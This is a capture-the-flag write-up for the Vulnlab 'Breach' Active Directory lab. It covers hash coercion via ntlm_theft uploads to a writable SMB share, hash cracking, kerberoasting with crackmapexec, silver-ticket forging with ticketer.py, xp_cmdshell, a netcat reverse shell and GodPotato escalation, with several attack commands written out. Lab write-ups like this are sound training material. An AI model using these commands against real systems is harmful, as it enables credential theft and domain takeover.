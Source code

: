 # Vulnlab - Breach

```bash
PORT     STATE SERVICE       VERSION 
53/tcp   open  domain? 
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2024-03-12 16:03:34Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: breach.vl0., Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds?              
464/tcp  open  kpasswd5?                                    
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped
1433/tcp open  ms-sql-s      Microsoft SQL Server 2019 15.00.2000.00; RTM
|_ssl-date: 2024-03-12T16:45:02+00:00; -20s from scanner time.
|_ms-sql-info: ERROR: Script execution failed (use -d to debug)
|_ms-sql-ntlm-info: ERROR: Script execution failed (use -d to debug)
| ssl-cert: Subject: commonName=SSL_Self_Signed_Fallback 
| Issuer: commonName=SSL_Self_Signed_Fallback
3389/tcp open  ms-wbt-server Microsoft Terminal Services 
|_ssl-date: 2024-03-12T16:06:32+00:00; -20s from scanner time.
| ssl-cert: Subject: commonName=BREACHDC.breach.vl
| Issuer: commonName=BREACHDC.breach.vl
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2024-03-11T16:03:04
| Not valid after:  2024-09-10T16:03:04
| MD5:   6bef15efd66e365df68a7dc73029cee7
|_SHA-1: 7fce3649341af1319d2092a07f42efd473427203
| rdp-ntlm-info: 
|   Target_Name: BREACH
|   NetBIOS_Domain_Name: BREACH
|   NetBIOS_Computer_Name: BREACHDC
|   DNS_Domain_Name: breach.vl
|   DNS_Computer_Name: BREACHDC.breach.vl
|   DNS_Tree_Name: breach.vl
|   Product_Version: 10.0.20348
|_  System_Time: 2024-03-12T16:05:52+00:00
Service Info: Host: BREACHDC; OS: Windows; CPE: cpe:/o:microsoft:windows
```

Accessing smb shares with null authentication, we'll be able to list available shares

<img src="https://i.imgur.com/CZIuO7Q.png"/>

From  `share` , we'll get 3 username directories

<img src="https://i.imgur.com/IE02TOZ.png"/>

We could have gotten domain users from brute forcing SID as well with `lookupsid.py`

<img src="https://i.imgur.com/79XueMv.png"/>

We can try AS-REP roasting but this didn't showed any user with pre-authentication not required

<img src="https://i.imgur.com/3Z1umhi.png"/>

## Coercing Authentication

In share, we have write access so we can upload files in any folder other than user directories as we don't have read access there

<img src="https://i.imgur.com/GoMoFHE.png"/>

So we can perform coerce authentication by uploading scf or lnk files but I am not sure which extension will lead to coercion so we can use `ntlm_theft` to upload all kinds of extension for this

```bash
python3 ./ntlm_theft.py --generate all --server 10.8.0.136 -f @a
```

<img src="https://i.imgur.com/ywBdfyu.png"/>

As soon as we'll upload the file, we'll receive NTLMv2 challenge/response hash of `Julia.Wong`

<img src="https://i.imgur.com/9RcjmW7.png"/>
This will get cracked easily through hashcat using rockyou.txt

<img src="https://i.imgur.com/tMG5kt0.png"/>
## Performing kerberoasting on mssql user

We already saw that there was `svc_mssql`, it's most likely a service account which can be kerberoastable

```bash
crackmapexec ldap breach.vl -u 'julia.wong' -p 'password' --kerberoasting kerberoast.txt
```

<img src="https://i.imgur.com/UDFGJUy.png"/>

Cracking this again with hashcat

<img src="https://i.imgur.com/j7hILVQ.png"/>

With these credentials we can try logging in on MSSQL service with `mssqclient.py` , but it gives us login failure

<img src="https://i.imgur.com/823VYBW.png"/>

Since we have the mssql service account, we can forge a silver ticket and impersonate administrator user on mssql

```bash
ticketer.py -nthash hash -domain-sid S-1-5-21-2330692793-3312915120-706255856 -domain breach.vl -spn 'MSSQL/breach.vl' administrator
```

<img src="https://i.imgur.com/shSZJJR.png"/>

<img src="https://i.imgur.com/HJTF0CL.png"/>

Now we just need to enable `xp_cmdshell` as it's disabled by default

<img src="https://i.imgur.com/gLOHOVr.png"/>

Downloading and executing netcat to get a reverse shell

<img src="https://i.imgur.com/AZXko4m.png"/>

This user has `SeImpersonate` privilege enabled through which we can impersonate/steal the token of any user including SYSTEM user

<img src="https://i.imgur.com/oXkFlFq.png"/>

Using `GodPotato` to escalate our privileges

<img src="https://i.imgur.com/XahBFyD.png"/>
  
# References

- https://github.com/BeichenDream/GodPotato

